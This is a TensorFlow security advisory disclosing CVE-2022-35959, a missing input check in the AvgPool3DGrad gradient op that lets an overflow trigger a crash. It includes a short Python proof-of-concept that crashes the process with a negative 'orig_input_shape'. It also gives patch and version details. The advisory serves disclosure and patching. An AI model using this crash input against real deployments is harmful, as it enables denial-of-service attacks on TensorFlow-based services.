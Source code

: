 ## TFSA-2022-094: `CHECK` failures in `AvgPool3DGrad`

### CVE Number
CVE-2022-35959

### Impact
The implementation of `AvgPool3DGradOp` does not fully validate the input `orig_input_shape`. This results in an overflow that results in a  `CHECK` failure which can be used to trigger a denial of service attack:
```python
import tensorflow as tf

ksize = [1, 2, 2, 1]
strides = [1, 2, 2, 1]
padding = "VALID"
data_format = "NHWC"
orig_input_shape = tf.constant(-536870912, shape=[4], dtype=tf.int32)
grad = tf.constant(.0890338004362538, shape=[1,5,7,1], dtype=tf.float64)
tf.raw_ops.AvgPoolGrad(orig_input_shape=orig_input_shape, grad=grad, ksize=ksize, strides=strides, padding=padding, data_format=data_format)
```

### Patches
We have patched the issue in GitHub commit [9178ac9d6389bdc54638ab913ea0e419234d14eb](https://github.com/tensorflow/tensorflow/commit/9178ac9d6389bdc54638ab913ea0e419234d14eb).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
